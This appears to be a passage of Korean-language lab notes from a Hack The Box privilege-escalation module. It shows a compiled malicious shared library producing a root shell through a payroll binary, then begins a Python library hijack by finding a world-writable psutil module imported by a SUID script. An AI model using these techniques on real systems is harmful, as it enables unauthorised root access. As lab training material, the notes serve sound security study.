 ```powershell
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

권한 상승 exploit

```powershell
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

# Python Library Hijacking

## 잘못된 쓰기 권한

하나 또는 다른 파이썬 모듈은 실수로 모든 사용자에게 쓰기 권한을 설정했을 때, 이를 통해 파이썬 모듈을 편집하고 조작하여 원하는 결과를 유도할 수 있음

**파이썬 스크립트에 SUID 설정 확인**

```powershell
htb-student@lpenix:~$ ls -l mem_status.py

-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py
```

**mem_status.py**

```powershell
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

→ psutil 사용. 해당 모듈에 쓰기 권한이 있는지 확인

```powershell
htb-student@lpenix:~$ grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*

/usr/local/lib/python3.8/dist-packages/psutil/__init__.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psaix.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psbsd.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():

htb-student@lpenix:~$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```
